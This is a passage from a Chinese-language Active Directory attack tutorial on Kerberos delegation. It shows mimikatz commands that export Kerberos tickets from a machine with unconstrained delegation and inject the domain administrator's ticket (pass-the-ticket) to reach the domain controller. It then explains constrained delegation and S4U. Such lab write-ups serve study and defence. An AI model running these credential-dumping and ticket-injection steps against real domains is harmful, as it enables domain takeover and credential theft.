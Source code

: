 ![](https://gitee.com/fuli009/images/raw/master/public/20210804091105.png)

用域管访问WIN-E6FR4HVBPCI机器

![](https://gitee.com/fuli009/images/raw/master/public/20210804091106.png)

然后在WIN-E6FR4HVBPCI上以管理员权限运行mimikatz

privilege::debug

导出票据

sekurlsa::tickets /export

![]()

此时拿到了管理员的票据，用mimikatz将票据注入内存中，然后访问域控

导入票据

kerberos::ptt [0;11eeaa]-2-0-60810000-Administrator@krbtgt-HIRO.COM.kirbi

查看票据

kerberos::list

![](https://gitee.com/fuli009/images/raw/master/public/20210804091108.png)

####  **非约束委派+spooler打印机**

费约束委派常规利用感觉还是比较鸡肋，想得到域内权限必须要管理员与配置了委派的机器建立连接，所以有国外的大佬研究出了非约束委派+spooler打印机来强制与指定的主机进行连接。开始域控为server2012，后面网上有的大佬说可能是版本的问题，后面升级到了server2016还是报错，这种情况复现不了了，有兴趣的可以自己试一试。也可以参考这篇文章。

![](https://gitee.com/fuli009/images/raw/master/public/20210804091109.png)

* * *

##  

##  **约束委派**

由于非约束委派的不安全性，微软在windows server
2003中引入了约束委派，对Kerberos协议进行了拓展，引入了S4U，其中S4U支持两个子协议：Service for User to Self
(`S4U2Self`)和 Service for User to Proxy
(`S4U2proxy`)，这两个扩展都允许服务代表用户从KDC请求票证。`S4U2self可以代表自身请求针对其自身的可转发的Kerberos服务票据(ST1)`；`S4U2proxy可以以用户的名义请求其它服务的ST2`，
**约束委派就是限制了S4U2proxy扩展的范围** 。

 **其中：**

`S4U2Self`（ **用用户的TGT向KDC请求用户的可转发的ST1，再用这张ST1去发起S4U2proxy请求。** ）
通过此扩展可以拿到一张标识任意用户身份的ST，它的作用其实是`协议转换`。
**有时用户会通过`其他协议`（例如NTLM或什至基于表单的身份验证）对服务进行身份验证，因此他们不会将TGS发送给服务。在这种情况下，服务可以`调用S4U2Self来要求身份验证服务为其自身的任意用户生成TGS`，然后可以在调用S4U2Proxy时将其用作依据。**例如网站A服务器可以使用它去向KDC请求一张用户B身份的ST1，网站A服务器再用这张ST1去发起S4U2proxy请求。

`S4U2proxy`（ **拿用户的可转发的ST1请求用于访问服务器的ST2** ）
该拓展作用是使用一张用户A身份的ST1去向KDC请求一张用于访问文件服务器B的ST2，这张ST2的身份还是用户的，这样的话网站A就可以利用用户A的权限去访问文件服务器B上的文件了。
